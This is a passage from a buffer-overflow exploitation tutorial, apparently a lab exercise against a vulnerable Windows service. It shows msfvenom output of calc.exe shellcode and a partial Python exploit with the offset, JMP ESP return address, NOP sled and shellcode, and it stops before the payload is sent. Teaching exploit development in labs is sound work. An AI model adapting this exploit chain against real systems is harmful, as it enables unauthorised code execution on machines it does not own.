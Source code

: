 ### Generate Shellcode

Now that everything is in place we can generate our shellcode. We can do this with MSFvenom.

The command below will generate shellcode that will start the windows calculator.

```bash
root@kali:/mnt/hgfs/_shared_folder/BO# msfvenom -p windows/exec CMD=calc.exe -b '\x00\' -f c
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 220 (iteration=0)
x86/shikata_ga_nai chosen with final size 220
Payload size: 220 bytes
Final size of c file: 949 bytes
unsigned char buf[] =
"\xbb\xbb\x2a\xfd\xc1\xdb\xd4\xd9\x74\x24\xf4\x5d\x33\xc9\xb1"
"\x31\x83\xed\xfc\x31\x5d\x0f\x03\x5d\xb4\xc8\x08\x3d\x22\x8e"
"\xf3\xbe\xb2\xef\x7a\x5b\x83\x2f\x18\x2f\xb3\x9f\x6a\x7d\x3f"
"\x6b\x3e\x96\xb4\x19\x97\x99\x7d\x97\xc1\x94\x7e\x84\x32\xb6"
"\xfc\xd7\x66\x18\x3d\x18\x7b\x59\x7a\x45\x76\x0b\xd3\x01\x25"
"\xbc\x50\x5f\xf6\x37\x2a\x71\x7e\xab\xfa\x70\xaf\x7a\x71\x2b"
"\x6f\x7c\x56\x47\x26\x66\xbb\x62\xf0\x1d\x0f\x18\x03\xf4\x5e"
"\xe1\xa8\x39\x6f\x10\xb0\x7e\x57\xcb\xc7\x76\xa4\x76\xd0\x4c"
"\xd7\xac\x55\x57\x7f\x26\xcd\xb3\x7e\xeb\x88\x30\x8c\x40\xde"
"\x1f\x90\x57\x33\x14\xac\xdc\xb2\xfb\x25\xa6\x90\xdf\x6e\x7c"
"\xb8\x46\xca\xd3\xc5\x99\xb5\x8c\x63\xd1\x5b\xd8\x19\xb8\x31"
"\x1f\xaf\xc6\x77\x1f\xaf\xc8\x27\x48\x9e\x43\xa8\x0f\x1f\x86"
"\x8d\xe0\x55\x8b\xa7\x68\x30\x59\xfa\xf4\xc3\xb7\x38\x01\x40"
"\x32\xc0\xf6\x58\x37\xc5\xb3\xde\xab\xb7\xac\x8a\xcb\x64\xcc"
"\x9e\xaf\xeb\x5e\x42\x1e\x8e\xe6\xe1\x5e";
```

We can now add this shellcode to our python script.

We are also going to add something else, a NOP sled.

A NOP (No-OPeration) is a instruction that does nothing. It simply tells the CPU to skip this instruction and go to the next. When adding a bunch NOPs we create something called a NOP sled. We do this since we cant be certain where in memory we will jump to, so by adding these NOPs the CPU will just glide down the NOPs to our shellcode.

```python
#!/usr/bin/python

import socket,sys

address = '192.168.136.130'
port    = 9999

offset  = 2003

shellcode = b"\xbb\xbb\x2a\xfd\xc1\xdb\xd4\xd9\x74\x24\xf4\x5d\x33\xc9\xb1\x31\x83\xed\xfc\x31\x5d\x0f\x03\x5d\xb4\xc8\x08\x3d\x22\x8e\xf3\xbe\xb2\xef\x7a\x5b\x83\x2f\x18\x2f\xb3\x9f\x6a\x7d\x3f\x6b\x3e\x96\xb4\x19\x97\x99\x7d\x97\xc1\x94\x7e\x84\x32\xb6\xfc\xd7\x66\x18\x3d\x18\x7b\x59\x7a\x45\x76\x0b\xd3\x01\x25\xbc\x50\x5f\xf6\x37\x2a\x71\x7e\xab\xfa\x70\xaf\x7a\x71\x2b\x6f\x7c\x56\x47\x26\x66\xbb\x62\xf0\x1d\x0f\x18\x03\xf4\x5e\xe1\xa8\x39\x6f\x10\xb0\x7e\x57\xcb\xc7\x76\xa4\x76\xd0\x4c\xd7\xac\x55\x57\x7f\x26\xcd\xb3\x7e\xeb\x88\x30\x8c\x40\xde\x1f\x90\x57\x33\x14\xac\xdc\xb2\xfb\x25\xa6\x90\xdf\x6e\x7c\xb8\x46\xca\xd3\xc5\x99\xb5\x8c\x63\xd1\x5b\xd8\x19\xb8\x31\x1f\xaf\xc6\x77\x1f\xaf\xc8\x27\x48\x9e\x43\xa8\x0f\x1f\x86\x8d\xe0\x55\x8b\xa7\x68\x30\x59\xfa\xf4\xc3\xb7\x38\x01\x40\x32\xc0\xf6\x58\x37\xc5\xb3\xde\xab\xb7\xac\x8a\xcb\x64\xcc\x9e\xaf\xeb\x5e\x42\x1e\x8e\xe6\xe1\x5e"

buff  = b""                 # empty byte var
buff += b"A"*offset         # junk
buff += b"\xAF\x11\x50\x62" # EIP to JMP ESP
buff += b"\x90"*32          # NOP sled
```
